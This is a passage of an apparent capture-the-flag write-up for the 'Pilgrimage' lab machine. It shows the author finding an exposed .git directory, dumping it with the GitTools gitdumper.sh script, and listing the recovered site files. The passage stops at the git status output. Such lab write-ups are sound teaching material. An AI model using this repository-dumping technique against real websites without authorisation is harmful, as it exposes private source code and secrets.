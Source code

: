 Some common `.git` directories are:

    config
    description
    HEAD
    index
    hooks/
    info/
    logs/
    objects/
    refs/

I first attempted to access `http://10.10.11.219/.git/config` which gave me the download of the `config` file, showing that it is accessible.

I used this [tool](https://github.com/internetwache/GitTools/tree/master/Dumper) which is made to dump `.git` repos recursively, even if their listing is not public.

After installing the tool, follow the instructions and run:

    bash ./gitdumper.sh 'http://pilgrimage.htb/.git/' dump

Once done, we can explore the history recorded by `.git`

    git status

    >>

    On branch master
    Changes not staged for commit:
    (use "git add/rm <file>..." to update what will be committed)
    (use "git restore <file>..." to discard changes in working directory)
        deleted:    assets/bulletproof.php
        deleted:    assets/css/animate.css
        deleted:    assets/css/custom.css
        deleted:    assets/css/flex-slider.css
        deleted:    assets/css/fontawesome.css
        deleted:    assets/css/owl.css
        deleted:    assets/css/templatemo-woox-travel.css
        deleted:    assets/images/banner-04.jpg
        deleted:    assets/images/cta-bg.jpg
        deleted:    assets/js/custom.js
        deleted:    assets/js/isotope.js
        deleted:    assets/js/isotope.min.js
        deleted:    assets/js/owl-carousel.js
        deleted:    assets/js/popup.js
        deleted:    assets/js/tabs.js
        deleted:    assets/webfonts/fa-brands-400.ttf
        deleted:    assets/webfonts/fa-brands-400.woff2
        deleted:    assets/webfonts/fa-regular-400.ttf
        deleted:    assets/webfonts/fa-regular-400.woff2
        deleted:    assets/webfonts/fa-solid-900.ttf
        deleted:    assets/webfonts/fa-solid-900.woff2
        deleted:    assets/webfonts/fa-v4compatibility.ttf
        deleted:    assets/webfonts/fa-v4compatibility.woff2
        deleted:    dashboard.php
        deleted:    index.php
        deleted:    login.php
        deleted:    logout.php
        deleted:    magick
        deleted:    register.php
        deleted:    vendor/bootstrap/css/bootstrap.min.css
        deleted:    vendor/bootstrap/js/bootstrap.min.js
        deleted:    vendor/jquery/jquery.js
        deleted:    vendor/jquery/jquery.min.js
        deleted:    vendor/jquery/jquery.min.map
        deleted:    vendor/jquery/jquery.slim.js
        deleted:    vendor/jquery/jquery.slim.min.js